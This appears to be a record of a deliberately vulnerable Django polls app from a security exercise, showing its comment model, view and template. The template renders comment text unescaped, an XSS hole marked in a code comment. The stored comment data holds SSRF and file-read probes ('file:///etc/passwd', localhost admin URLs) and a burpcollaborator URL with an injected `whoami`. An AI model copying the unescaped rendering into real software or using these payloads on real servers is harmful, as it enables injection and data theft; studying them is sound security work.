
The app's page /polls/4/comment_thank_you/, older data.

The same page, newer data.
### polls/models.py (models this page shows)
class Comment(models.Model):
    question = models.ForeignKey(Question, on_delete=models.CASCADE)
    text = models.TextField()   # here (together with comment_thank_you.html) is a vulnerability for XSS-injection
    name = models.CharField(max_length=30, blank=True, null=True)
    email = models.EmailField(blank=False, null=True)  # blank = False = sähköposti vaaditaan vaikka sitä ei näytetä => laitetaan tietokantaan ja kokeillaan häkätä
    created_at = models.DateTimeField(auto_now_add=True)
    url = models.CharField(max_length=100, blank=True, null=True)

### polls/views.py (the view)
# urls.py: path('<int:question_id>/comment_thank_you/', views.comment_thanks, name='comment_thanks'),
def comment_thanks(request, question_id):
    try:
        question = Question.objects.get(pk=question_id)
        comments = Comment.objects.filter(question=question).order_by('-created_at')
    except Question.DoesNotExist:
        raise Http404("Question does not exist")
    return render(request, 'polls/comment_thank_you.html', {
        'question': question,
        'comments': comments
    })

### polls/templates/polls/comment_thank_you.html (shortened to what this page needs)
<!DOCTYPE html>
<html>
<head>
</head>
<body>
    <h2>Thank you for your comment. Every opinion counts!</h2>
    <br/>
    <a href="{% url 'polls:index' %}">Back to polls</a>
    <h3>Comments about <FONT COLOR="#008000">"{{ question.question_text }}"</FONT>:</h3>
    <ul>
        {% for comment in comments %}
        <li>({{ comment.created_at }}): {{ comment.text|safe }} ({% if comment.name %} {{ comment.name }} ) Homepage: <a href="{% url 'polls:fetch_homepage' comment.id %}">{{ comment.url }}</a> {% else %} anonymous {% endif %}</li>
        <li style="display: none"><li>
            {% empty %}
            <li>No comments yet.</li>
        {% endfor %}
    </ul>
</body>
</html>

Row changes from the older to the newer data that the page shows:
removed Comment: created_at "July 7, 2024, 8:03 p.m.", text "my comment", shows "anonymous"
added Comment: created_at "July 9, 2024, 9:15 a.m.", text "pp", name "nimi", url "http://127.0.0.1:8000/admin"
added Comment: created_at "July 9, 2024, 8:50 a.m.", text "pp", name "nimi", url "http://127.0.0.1:8000/admin"
added Comment: created_at "July 9, 2024, 8:41 a.m.", text "pp", shows "anonymous"
added Comment: created_at "July 9, 2024, 8:34 a.m.", text "fr", name "zxcvbnm,.-", url "http://3iufty2q67fuy2dew3yug4f34.burpcollaborator.net?`whoami`"
added Comment: created_at "July 9, 2024, 8:24 a.m.", text "my comment2", name "kop", url "http://127.0.0.1:8000?file:///etc/passwd"
added Comment: created_at "July 9, 2024, 8:24 a.m.", text "my comment2", name "kop", url "http://127.0.0.1:8000?file:///etc/passwd"
added Comment: created_at "July 8, 2024, 8:40 p.m.", text "jioji", name "zxcvbnm,.-", url "http://httpbin.org/get"
added Comment: created_at "July 8, 2024, 8:30 p.m.", text "jioji", name "zxcvbnm,.-", url "file:///etc/passwd"
added Comment: created_at "July 8, 2024, 8:30 p.m.", text "jioji", name "zxcvbnm,.-", url "http://127.0.0.1file:///etc/passwd"
